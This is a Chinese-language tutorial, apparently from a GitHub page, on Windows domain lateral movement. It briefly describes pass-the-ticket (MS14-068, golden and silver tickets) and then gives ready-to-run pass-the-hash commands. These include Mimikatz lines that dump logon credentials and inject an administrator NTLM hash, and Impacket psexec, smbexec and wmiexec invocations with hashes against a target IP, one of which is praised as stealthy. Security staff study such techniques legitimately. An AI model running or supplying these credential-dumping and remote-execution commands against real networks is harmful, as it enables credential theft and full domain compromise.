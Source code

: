 **PTT-票据传递**

PTT 攻击的部分就不是简单的 NTLM 认证了，它是利用 Kerberos 协议进行攻击的，三种常见的攻击方法：

MS14-068，Golden ticket，SILVER ticket。简单来说就是将连接合法的票据注入到内存中实现连接。

Golden ticket(黄金票据)，SILVER ticket(白银票据) 属于权限维持技术

MS14-068 基于漏洞，造成的危害是允许域内任何一个普通用户，将自己提升至域管权限。微软给出的补丁是 kb3011780

## [PTH](#toc_pth)

### [**利用 Mimikatz 进行 PTH**](#toc_mimikatzpth)

Mimikatz 内置了哈希传递的功能，需要本地管理员权限。

① 抓取用户的哈希

```plain
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

② 利用抓取的域管理员的 NTLM hash 进行哈希传递

```plain
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:uf9n1x.com /ntlm:93b95aef15f4d50fab96ffc44a2f326a" exit
```

### [**利用 impacket 进行 PTH**](#toc_impacketpth)

Impacket 项目中具有远程执行功能的几个脚本几乎都可以进行哈希传递攻击，常见的有：

```plain
psexec.py      # 类似 PSEXEC 的功能示例，使用 remcomsvc（https://github.com/kavika13/remcom）smbexec.py     # 与使用 remcomsvc 的 psexec w/o 类似的方法。这里描述了该技术。我们的实现更进一步，                    #实例化本地 smbserver 以接收命令的输出。这在目标计算机没有可写共享可用的情况下很有用。python3 smbexec.py -hashes :3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131 
               #-hashes 指定用户完整的哈希，如果 LM 哈希被废弃，就将其指定为 0 或者空 

atexec.py      # 此示例通过 Task Scheduler 服务在目标计算机上执行命令，并返回已执行命令的输出。

wmiexec.py     # 需要开放 139 和 445 端口，通过 Windows Management Instrumentation 使用的半交互式 shell，它不需要在目标服务器上安装任何服务/代理，以管理员身份运行，非常隐蔽。

python wmiexec.py -hashes 00000000000000000000000000000:3617ad523f47fc96f24c45943affd954 administrator@192.168.1.131 
dcomexec.py    # 类似于 wmiexec.py 的半交互式 shell，但使用不同的 DCOM 端点。目前支持               MMC20.Application，ShellWindows 和 ShellBrowserWindow 对象。
```

用法：

```plain
# 普通用法
python3 xxx.py domain/user:password@ip
# 哈希传递
python3 xxx.py domain/user@ip -hashes :93b95aef15f4d50fab96ffc44a2f326a
```
